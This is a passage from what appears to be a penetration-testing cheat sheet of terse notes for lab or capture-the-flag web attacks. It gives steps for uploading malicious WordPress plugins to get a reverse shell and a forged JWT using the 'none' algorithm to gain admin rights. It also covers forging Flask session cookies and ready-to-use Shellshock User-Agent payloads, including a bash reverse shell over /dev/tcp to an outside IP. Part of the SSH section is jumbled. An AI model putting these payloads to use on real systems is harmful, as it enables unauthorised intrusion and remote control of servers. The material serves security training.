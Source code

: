                 - upload, and activate
                - start reverse shell
                - go to http://192.168.89.55/shenzi/wp-content/plugins/evilplugin/shell.php
            - malicious wordpress plugin upload
                > wordpwn 192.168.49.89 80 N
                - upload the malicious.zip file to wordpress, activate
                - start reverse shell
                - go to http://(target)/wp-content/plugins/malicious/wetw0rk_maybe.php
    - JWT
        - Do the following
            1) Intercept traffic in burp
            2) find jwt token
            3) inspect it with base64 -d or https://jwt.io/
            4) Create your own payload remember the following
                - Test none attack
                    > ./jwt-converter.sh 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6ICIxIiwiZ3Vlc3QiOiAidHJ1ZSIsImFkbWluIjogZmFsc2V9.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c' '{"typ":"JWT","alg":"none"}' '{"id": "0","guest": "false","admin": true}'
                - Test RSA->H256 attack (if you have a key)
                - possible to brute force?
    - Flask Session Cookie
        - To decode a session cookie:
            >  ./fsct.py -c 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.YOm6uQ.qxr820vJ-G3g_ob-FFizSQYpMNU' decode
        - To bake your own cookie:
            - MUST find the SECRET_KEY value first. could be an evn var, or in app.py in plain text
            - Adjust decoded session from above, and encode your own
                > flask_session_cookie_manager3.py encode -s 'Fl@sKy_Sup3R_S3cR3T' -t '{"logged_in":True}'
                - You may need to play with the -t, adjust "true" "True" true or True. Mess with it. Maybe script something to create multiple cookies

    - Gather all links on site
        1) go to site and select "view source"
        2) copy all content to a enum.html file
        3) run pulllinks
            > pulllinks.sh ./html-source.html
            > pulllinks.sh ./html-source.html nofilter





    - SSH
        ssh2ngjohn.py 
            - Look at the page source for "<meta name="generator" content="Wordpress VERSION" />
        - plugins
            - Can be found through source code or in http://10.10.10.37/plugins or /wp-content/plugins
        - theme
            - can be found in page source, search for "theme"
    - phpmyadmin
        - find version in page source
    - droopescan
        > droopescan scan drupal -u http://10.10.10.10
    - shellshock / shell shock
        - Open up burp and intercept a login request on the page, check the header to make sure its being processed by .cgi
        - You could adjust the "User-Agent:" field with the repeater, example code:
            - Regular payload:
                > User-Agent: () { :; }; echo; /usr/bin/id
            - Blind Payload:
                - Start an HTTP server up
                > User-Agent: () { :; }; echo; /usr/bin/wget http://10.10.14.18
                > User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.10.14.18/4444 0>&1
                - If this does not work try a known port:
                > User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.10.14.18/443 0>&1
            - You can use Burp suite as well
                - Intercept payload with proxy